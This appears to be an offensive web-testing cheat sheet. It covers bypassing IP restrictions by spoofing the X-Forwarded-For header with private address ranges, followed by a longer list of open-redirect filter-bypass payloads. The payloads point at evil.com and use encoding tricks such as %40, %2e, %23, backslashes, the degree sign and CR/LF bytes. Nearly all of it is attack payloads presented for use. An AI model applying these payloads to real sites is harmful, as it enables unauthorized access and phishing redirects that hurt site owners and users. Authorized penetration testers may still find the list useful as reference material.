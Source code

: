 # IP RESTRICTION BYPASS
"X-Forwarded-For" http header with value of needed ip address<br>
IP address spaces reserved for private networks<br>
10.0.0.0        -   10.255.255.255  (10/8 prefix)<br>
172.16.0.0      -   172.31.255.255  (172.16/12 prefix)<br>
192.168.0.0     -   192.168.255.255 (192.168/16 prefix)<br>
# OPEN REDIRECT
Simply try to change the domain
Example: ?redirect=https://example.com --> ?redirect=https://evil.com
Bypass the filter when protocol is blacklisted using //
Example: ?redirect=https://example.com --> ?redirect=//evil.com
Bypass the filter when double slash is blacklisted using \\
Example: ?redirect=https://example.com --> ?redirect=\evil.com
Bypass the filter when double slash is blacklisted using http: or https:
Example: ?redirect=https://example.com --> ?redirect=https:example.com
Bypass the filter using %40
Example: ?redirect=example.com --> ?redirect=example.com%40evil.com
Bypass the filter if it only checks for domain name
Example: ?redirect=example.com --> ?redirect=example.comevil.com
Bypass the filter if it only checks for domain name using a dot %2e
Example: ?redirect=example.com --> ?redirect=example.com%2eevil.com
Bypass the filter if it only checks for domain name using a query/question mark ?
Example: ?redirect=example.com --> ?redirect=evil.com?example.com
Bypass the filter if it only checks for domain name using a hash %23
Example: ?redirect=example.com --> ?redirect=evil.com%23example.com
Bypass the filter using a ° symbol
Example: ?redirect=example.com --> ?redirect=example.com/°evil.com
Bypass the filter using a url encoded Chinese dot %E3%80%82
Example: ?redirect=example.com --> ?redirect=evil.com%E3%80%82%23example.com
Bypass the filter if it only allows you to control the path using a nullbyte %0d or %0a
Example: ?redirect=/ --> ?redirect=/%0d/evil.com
